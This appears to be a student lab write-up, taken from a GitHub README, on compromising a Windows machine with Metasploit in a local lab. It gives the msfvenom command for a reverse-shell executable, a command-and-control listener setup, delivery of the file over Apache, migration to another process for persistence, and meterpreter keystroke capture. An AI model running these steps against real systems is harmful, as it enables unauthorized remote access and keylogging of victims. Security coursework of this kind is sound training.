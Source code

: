 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![Screenshot 2024-04-27 225958](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/4f2f69c1-b13b-46d1-9606-88d9dd94ff1c)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![Screenshot 2024-04-27 230125](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/00c06398-5fc2-45e5-8d37-930015471760)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-27 230222](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/200832f8-179c-4755-98dc-556e43ea369d)

Start apache server sudo systemctl apache2 start

![Screenshot 2024-04-27 230325](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/5688706c-7032-48f8-a69a-706710b22494)

Check the status of apache2

![Screenshot 2024-04-27 230353](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/70e79ec5-be33-45d6-9b52-22ddcfe6cbcc)


Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![Screenshot 2024-04-27 230538](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/9e242c40-3eb1-4bd2-83dc-78e0188b544b)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![Screenshot 2024-04-27 230606](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/a0a99630-57d8-45ec-8c1e-e49fe63780e1)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-27 230745](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/dba3c593-d134-4154-a2c9-0d9a2bfaf7f2)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-27 230906](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/c8f21288-a15b-4b27-bf02-f65e6eb9dd71)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-27 230951](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/74e7a655-4097-4c59-ad23-acc7e3eff712)


keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-27 231001](https://github.com/sathyaa22/Compromising-windows-using-Metasploit/assets/140483368/22256fb8-f1a1-4648-ab81-80b8ac442359)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
